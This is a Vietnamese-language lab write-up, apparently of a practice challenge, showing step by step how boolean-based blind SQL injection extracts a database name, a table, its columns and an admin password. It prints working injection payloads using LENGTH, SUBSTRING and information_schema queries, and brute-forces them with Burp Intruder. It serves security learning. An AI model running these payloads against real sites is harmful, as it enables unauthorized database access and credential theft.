

- Khi ta thêm 1 dấu `'` ta thấy web đã trả về `{"taken":false}`



- Khi thêm comment `-- `, web lại trả về `{"taken":true}`

- Bây giờ ta lấy độ dài của tên DB bằng cách brute-force và dùng mệnh đề đúng sai để nhận biết



- Ta dùng payload `0 AND LENGTH(database())>0--` và đưa sang `Intruder` để brute-force 



- Và ta thu được tên của DB gồm `10` kí tự
- Tiếp theo ta tìm tên của DB bằng cách so sánh từng kí tự bằng hàm `SUBSTRING()`

```sql
0 AND SUBSTRING(database(),1,1)='a'-- 
```






- Sau khi ta tiến hành tấn công, ta sẽ thu được tên của DB là `sqli_three`



- Tiếp theo ta sẽ tìm tất cả tên của các bảng trong DB 
- Ban đầu cũng sẽ tìm độ dài của chuỗi đó
```sql
0 AND LENGTH((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_three'))>0--  
```



- Kết quả cho thấy chuỗi đó gồm `5` chữ

- Sau đó ta lại dò từng kí tự của bảng
```sql
0 AND SUBSTRING((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_three'),1,1)='a'--  
```



- Kết quả được bảng tên là `users`

- Tiếp theo là tìm tất cả các cột trong bảng
```sql
0 AND SUBSTRING((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='users'),1,1)='a'--  
```



- Kết quả cho thấy bảng có 3 cột là: `id`, `username`, `password`

- Cuối cùng ta sẽ lấy mật khẩu của user `admin`



- Ta nhận được password của `admin` là `3845`


